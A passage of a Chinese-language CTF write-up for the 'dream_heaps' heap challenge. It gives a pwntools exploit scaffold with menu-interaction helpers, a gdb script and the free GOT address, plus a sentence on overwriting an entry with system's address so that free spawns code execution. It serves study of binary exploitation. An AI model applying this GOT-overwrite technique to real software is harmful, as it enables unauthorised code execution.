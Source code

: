 然后再edit HEAP[17]，改写为system真实地址   最后delete调用free即可触发

## exp

```python
from pwn import *
from ctypes import *
import sys

pty = process.PTY
context(os='linux', arch='i386', log_level='debug')
mode = ''
if len(sys.argv) > 1:
    mode = sys.argv[1]

proc = process("./dream_heaps")
belf = ELF("./dream_heaps")
libc = ELF("./libc-2.27.so")

def s(x): proc.send(x)
def sl(x): return proc.sendline(x)
def sd(x): return proc.send(x)
def sla(x, y): return proc.sendlineafter(x, y)
def sa(x, y): return proc.sendafter(x, y)
def ru(x): return proc.recvuntil(x)
def rc(): return proc.recv()
def rl(): return proc.recvline()
def li(con): return log.info(con)
def ls(con): return log.success(con)
def pi(): return proc.interactive()
def pcls(): return proc.close()
def ga(): return u64(ru(b'\x7f')[-6:].ljust(8, b'\x00'))

def add(size, con):
    sla(b'> ', b'1')
    sla(b'dream?', str(size).encode())
    sa(b'dream?', con)

def edt(idx, con):
    sla(b'> ', b'3')
    sla(b'change?', str(idx).encode())
    s(con[:6])

def shw(idx):
    sla(b'> ', b'2')
    sla(b'read?', str(idx).encode())


def rmv(idx):
    sla(b'> ', b'4')
    sla(b'delete?', str(idx).encode())


gscript = '''
    unhook-chunks
    b * 0x400b2d
    sq 0x00000000006020A0
'''
if mode == '-d':
    gdb.attach(proc, gdbscript=gscript)

heap_arr = 0x00000000006020A0
free_got = belf.got['free']

```